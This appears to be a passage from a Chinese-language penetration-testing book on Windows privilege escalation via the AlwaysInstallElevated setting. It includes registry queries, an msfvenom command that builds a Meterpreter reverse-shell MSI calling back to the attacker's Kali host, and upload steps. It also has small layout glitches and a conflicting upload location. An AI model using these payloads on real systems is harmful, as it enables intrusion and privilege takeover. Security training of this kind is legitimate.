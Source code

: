 我们可以利用这个配置通过生成一个自定义的 MSI 格式可执行文件来提升我们的权限。然后，我们可以使用`msiexec`工具执行该 MSI 可执行文件，从而获得提升的会话。

该功能在公司和组织中常常配置错误，主要是为了方便员工访问，或者管理员在设置工作站后错误地将其启用。无论哪种情况，这项技术都能让我们以相对简单的方式提升权限。

Always Install Elevated 功能配置在 Windows 注册表中，因此我们可以查询注册表以确定该功能是否启用，然后再开始权限提升过程。

让我们来看看如何使用 Metasploit 框架手动和自动执行此技术。

注意

如果目标系统未启用此功能，则此技术将无法工作。

要执行此技术，请按以下步骤操作：

1.  第一步是确定目标系统是否启用了 AlwaysInstallElevated 功能。可以通过在 Windows 命令行中运行以下注册表查询来完成：

    `reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated`

    `reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated`

    如下截图所示，这将输出 AlwaysInstallElevated 功能的注册表配置及其值。如果以下截图中突出显示的值设置为`0`，则该功能被禁用；如果值设置为`1`，则该功能已启用：

    ![图 9.8 – 注册表查询 – AlwaysInstallElevated](img/B17389_09_006.jpg)

    ](Images/B17389_09_008.jpg)

    图 9.8 – 注册表查询 – AlwaysInstallElevated

    在本例中，我们确定 AlwaysInstallElevated 功能已启用，因此可以利用该功能提升我们的权限。

1.  过程中的第二步是使用 MSFvenom 生成自定义的 MSI 可执行文件。可以通过在 Kali 中运行以下命令来完成此操作：

    `msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<KALI-IP> LPORT=<PORT> -f msi > setup.msi`

1.  生成有效载荷后，我们可以将其上传到 Windows 临时目录，可以在以下位置找到它：

    C:\Temp

    现在，我们可以通过运行以下命令，使用 Meterpreter 将自定义 MSI 可执行文件上传到目标系统的临时目录：

    `upload /home/kali/Desktop/setup.msi`

    如果你正在使用标准命令行，可以使用`certutil`工具将二进制文件传输到目标系统。

    如下图所示，这将把 Meterpreter 可执行文件上传到`Autorun Program`目录：

    ![图 9.9 – Meterpreter – 上传自定义 MSI    ](img/B17389_09_009.jpg)
